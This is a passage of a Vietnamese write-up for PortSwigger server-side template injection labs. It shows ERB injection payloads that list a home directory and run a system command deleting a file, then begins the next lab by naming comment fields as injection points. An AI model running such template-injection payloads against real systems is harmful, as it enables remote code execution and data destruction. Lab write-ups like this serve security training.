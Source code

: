 Payload: `<%= Dir.entries("/home/carlos") %>`

![image.png](Images/image%205.png)

có được path, xóa file morale.txt theo yêu cầu
`<%= system("rm /home/carlos/morale.txt") %>`

## SSTI-02: **Basic server-side template injection (code context)**

[lab-server-side-template-injection-basic-code-context](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

Đăng nhập vào tài khoản
Truy cập một bài blog bất kỳ và đăng bình luận

![image.png](Images/image%206.png)

Bình luận hiển thị trên blog cùng với tên người dùng và thời gian. Hai yếu tố có thể tác động: nội dung bình luận và tên người dùng.

